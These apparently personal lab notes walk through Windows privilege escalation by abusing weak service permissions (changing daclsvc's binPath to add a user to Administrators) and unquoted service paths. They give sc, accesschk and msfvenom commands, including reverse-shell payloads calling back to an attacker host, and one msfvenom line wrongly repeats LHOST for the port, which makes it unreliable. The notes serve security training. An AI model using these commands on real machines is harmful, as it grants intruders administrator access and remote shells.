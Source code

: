 ### binPath
First run powerup to check if we have any write access to any path
![[Pasted image 20210719165835.png]]

As we can see we have **daclsvc** service on which we have write permission

We can also check this with **accesschk** . Use the following command to check for service permission
```powershell
accesschk64.exe -uwcv Everyone *
```

| Commands | Use |  
| ----------- | ----------- |  
| -w | File which have write access  |  
| -v | Verbose Output |
| -u | Ignore the errors |
| -c | Display the service name |

**Everyone** is the group that will have access to services
![[Pasted image 20210719170412.png]]

We can see the same output here also the daclsvc service can be access by everyone

The ability to **SERVICE_CHANGE_CONFIG** will allow changes to the configuration of the service

To get more information on **daclsvc** we can use **accesschk**
```powershell
accesschk64.exe -uwcv daclsvc
```

![[Pasted image 20210719170717.png]]

This will show more information about that service

To query the service type
```powershell
sc qc daclsvc
```
![[Pasted image 20210719170910.png]]

Notice the Binary Path as we have access to change its configuration we will change its path. To change the path use the following command
```powershell
sc config daclsvc binpath= "net localgroup administrators user /add"
```

Here we are changing the path to add our user to the administrator group

Querying the service again we can see that the path is changed
![[Pasted image 20210719171310.png]]

To start the service type
```powershell
sc start daclsvc
```

**Note**: Error might occur because we remove the application and replaced it with the custom path

After starting the service the user will be added to the local group

### Unquoted Service Paths
The unquoted service paths are those where there are no quotes included in the path and there are spaces between the paths. With this misconfiguration we can trick the service to run our executable when the path is checked

First run powerup to see the unquoted service paths
![[Pasted image 20210719172716.png]]
![[Pasted image 20210719172743.png]]

In the following output you can see the path is unquoted and we can use this to get a shell
The service is called **unquotedsvc**

To generate a meterpreter shell use the following command
```bash
# This will add the user to the local group
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe

# This will give a reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] LHOST=[Port Number] -f exe -o common.exe

# Netcat Shell
msfvenom -p windows/shell_reverse_tcp LHOST=[Kali VM IP Address] LPORT=[Port Number] -f exe -o common.exe
```

Place the generated payload in between the path in our case **Common Files** so we named it **common.exe**

Start the service
```powershell
sc start unquotedsvc
```

You will have a shell
